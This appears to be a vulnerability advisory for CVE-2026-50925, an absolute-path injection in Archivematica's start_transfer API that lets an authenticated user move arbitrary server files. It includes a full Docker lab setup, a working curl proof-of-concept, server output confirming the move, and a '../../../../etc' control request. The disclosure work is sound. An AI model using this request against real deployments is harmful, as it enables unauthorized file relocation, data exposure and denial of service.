



# CVE-2026-50925 — Absolute-Path Injection in `start_transfer` Causes Server-Side Arbitrary File Move in Archivematica

[CVE ID]
CVE-2026-50925

[PRODUCT]
artefactual/archivematica — open-source digital-preservation system (Dashboard, MCP Server/Client, Storage Service)

[VERSION]
Upstream HEAD (2026-03-03) (commit `1315a59e221c86060e5ecf7132f893618d7fcf30`)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

The authenticated REST endpoint `POST /api/transfer/start_transfer/` (`start_transfer_api`) reads the POST parameter `name` into `transfer_name` and passes it to `filesystem_ajax.views.start_transfer`. There, `target = transfer_name` flows into `filepath = os.path.join(temp_dir, target)`; because Python's `os.path.join` discards the base when the second argument is absolute, an attacker-supplied absolute path (e.g. `/tmp/...`) replaces the intended per-transfer staging directory and reaches `_copy_to_start_transfer`, which executes `shutil.move(filepath, destination)` with `destination` under the watched `activeTransfers` directory. The only sanity check, `check_filepath_exists`, rejects any path containing the substring `..` but neither rejects absolute paths nor enforces containment under the staging base, so the move of an arbitrary existing server-side path succeeds.

Vulnerable code:
- Tainted parameter: <https://github.com/artefactual/archivematica/blob/1315a59e221c86060e5ecf7132f893618d7fcf30/src/archivematica/dashboard/components/api/views.py#L351-L355>
- Unsafe join + move sink: <https://github.com/artefactual/archivematica/blob/1315a59e221c86060e5ecf7132f893618d7fcf30/src/archivematica/dashboard/components/filesystem_ajax/views.py#L149-L164> and <https://github.com/artefactual/archivematica/blob/1315a59e221c86060e5ecf7132f893618d7fcf30/src/archivematica/dashboard/components/filesystem_ajax/views.py#L229>

## Proof of Concept

### Victim setup

Official `hack/docker-compose.yml` stack of the pinned commit on Docker (project `scdd_50925`). Deviations from the stock compose file, all mechanical and recorded in the session log: nginx published on `127.0.0.1:34560`; the other fixed host-port mappings removed (services stay on the internal network only); the two upstream-hardcoded external volumes renamed (`am-pipeline-data-50925`, `ss-location-data-50925`) and created before `up`; the images built at the pinned commit and retagged `scdd-am-1315a59e-archivematica-{dashboard,mcp-server,mcp-client,storage-service}:1315a59e`. Source-tree md5 verified against GitHub raw at the pinned commit. First-boot bootstrap (as in the runbook): create MySQL `MCP`/`SS` databases, `storage-service migrate` + `create_user`, `dashboard migrate` + `manage.py install` (creates user `scdd_admin` with API key `scdd_dashboard_api_key`, API allowlist = nginx container IP), then `docker compose up -d` (full commands: `evidence/transcript.txt` sections 1–5).

```bash
cd archivematica/hack
dc() { docker compose -p scdd_50925 "$@"; }
dc up -d elasticsearch mysql gearmand clamavd nginx        # + wait healthy
docker exec scdd_50925-mysql-1 mysql -uroot -p12345 -e \
  "CREATE DATABASE IF NOT EXISTS MCP; CREATE DATABASE IF NOT EXISTS SS; \
   GRANT ALL PRIVILEGES ON MCP.* TO 'archivematica'@'%'; GRANT ALL PRIVILEGES ON SS.* TO 'archivematica'@'%'; FLUSH PRIVILEGES;"
dc run --rm --no-deps --use-aliases --entrypoint /src/src/archivematica/storage_service/manage.py \
  archivematica-storage-service migrate --noinput
dc run --rm --no-deps --use-aliases --entrypoint /src/src/archivematica/storage_service/manage.py \
  archivematica-storage-service create_user --username=scdd_ss --password=scdd_ss_pass \
  --email=scdd_ss@example.com --api-key=scdd_storage_api_key --superuser
dc up -d archivematica-storage-service
dc run --rm --no-deps --use-aliases --entrypoint python3 archivematica-dashboard \
  /src/src/archivematica/dashboard/manage.py migrate --noinput
NGINX_IP=$(docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' scdd_50925-nginx-1)
dc run --rm --no-deps --use-aliases --entrypoint python3 archivematica-dashboard \
  /src/src/archivematica/dashboard/manage.py install --username=scdd_admin --password=scdd_admin_pass \
  --email=scdd_admin@example.com --org-name=SCDD --org-id=SCDD --api-key=scdd_dashboard_api_key \
  --ss-url=http://archivematica-storage-service:8000 --ss-user=scdd_ss --ss-api-key=scdd_storage_api_key \
  --allowlist="$NGINX_IP" --site-url=http://127.0.0.1
dc up -d     # dashboard reachable at http://127.0.0.1:34560 via nginx
```



### Attack steps

Env prep (not the exploit itself): a marker directory is placed at an absolute path inside the dashboard container (`/tmp/cve50925_abs_0d48f7a2411a/marker.txt` containing `CVE50925_MARKER_d7dd974477b6c82b`), and a valid Transfer Source location (`TS_UUID=9ac51065-9957-432e-899f-8f6ecf90689f`, path `/home/archivematica/scdd_ts_dir`) is used to satisfy the required `paths[]` parameter (`base64("<uuid>:<path>")`).

The attack is a single authenticated POST whose `name` is the absolute source path:

```bash
curl -sS -X POST http://127.0.0.1:34560/api/transfer/start_transfer/ \
  -H 'Authorization: ApiKey scdd_admin:scdd_dashboard_api_key' \
  --data-urlencode 'name=/tmp/cve50925_abs_0d48f7a2411a' \
  --data-urlencode 'type=standard' \
  --data-urlencode 'accession=' \
  --data-urlencode 'access_system_id=' \
  --data-urlencode 'paths[]=OWFjNTEwNjUtOTk1Ny00MzJlLTg5OWYtOGY2ZWNmOTA2ODlmOi9ob21lL2FyY2hpdmVtYXRpY2Evc2NkZF90c19kaXI=' \
  --data-urlencode 'row_ids[]='
```



### Evidence

HTTP 200 confirming the server moved the absolute path into the watched active-transfers directory:

```
{"message": "Copy successful.", "path": "/var/archivematica/sharedDirectory/watchedDirectories/activeTransfers/standardTransfer/cve50925_abs_0d48f7a2411a-c4b0704c-92a4-485b-aa96-a0c0cfdd3403/"}
HTTP_STATUS=200
```

In-container verification (`docker exec scdd_50925-archivematica-dashboard-1`) shows the marker directory now lives under `activeTransfers` with identical content, and the original absolute path is gone (a move, not a copy):

```
DEST=/var/archivematica/sharedDirectory/watchedDirectories/activeTransfers/standardTransfer/cve50925_abs_0d48f7a2411a-c4b0704c-92a4-485b-aa96-a0c0cfdd3403/
-rw-r--r-- 1 archivematica archivematica 32 ... marker.txt
MARKER
CVE50925_MARKER_d7dd974477b6c82b
MARKER MATCH: CVE50925_MARKER_d7dd974477b6c82b
ls: cannot access '/tmp/cve50925_abs_0d48f7a2411a': No such file or directory
```

Control: the same request with a relative traversal name (`name=../../../../etc`) is rejected — `{"error": true, "message": "Error starting transfer .../tmp/tmpXXXX/../../../../etc: Illegal path."}` (HTTP 500) — proving the only guard is the `..` substring check and that absolute paths are the gap. Full session: `evidence/transcript.txt`; excerpts: `evidence/key_evidence.txt`.



## Impact

A remote attacker with a valid Dashboard API key (authentication required) obtains an arbitrary-path move primitive on the Archivematica server: any existing file or directory accessible to the dashboard process is moved server-side out of its original location into the watched `activeTransfers` directory, where it enters the transfer-processing pipeline. This enables relocation/removal of sensitive or system files reachable by the process (denial of service / data dislocation) and pulls their content into the archival pipeline, potentially exposing it through transfer processing. The content that appears at the destination comes from the chosen source path, not from attacker-supplied bytes (no arbitrary-content write), and the request must reference at least one valid transfer-source location in `paths[]`. The Dashboard UI's "start transfer" form reaches the same helper, so the issue is not limited to the API path.

## Occurrences

- `src/archivematica/dashboard/components/api/views.py:L355` — tainted input: `transfer_name = request.POST.get("name", "")` forwarded to `start_transfer` (API gate at `L351`)
- `src/archivematica/dashboard/components/filesystem_ajax/views.py:L160` — containment failure: `filepath = os.path.join(temp_dir, target)` with absolute attacker-controlled `target` (`L149`)
- `src/archivematica/dashboard/components/filesystem_ajax/views.py:L229` — sink: `shutil.move(filepath, destination)`
- `src/archivematica/dashboard/components/filesystem_ajax/helpers.py:L66-L84` — insufficient guard: `check_filepath_exists` blocks only `..` substrings

## References

- [CVE-2026-50925](https://www.cve.org/CVERecord?id=CVE-2026-50925)
- [artefactual/archivematica](https://github.com/artefactual/archivematica) — pinned commit [`1315a59e221c86060e5ecf7132f893618d7fcf30`](https://github.com/artefactual/archivematica/tree/1315a59e221c86060e5ecf7132f893618d7fcf30)
